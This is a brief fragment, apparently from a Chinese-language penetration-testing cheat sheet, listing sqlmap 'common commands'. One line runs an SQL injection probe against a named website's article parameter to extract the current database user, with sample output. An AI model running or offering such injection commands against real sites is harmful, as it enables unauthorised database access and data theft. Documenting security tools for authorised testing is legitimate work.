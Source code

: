 ### 常用命令
sqlmap --update  # 更新
sqlmap -u "http://www.2cto.com/article.php?id=276" --dbms "Mysql" --current-user  # 获取当前用户名称 current user: ‘root@localhost’
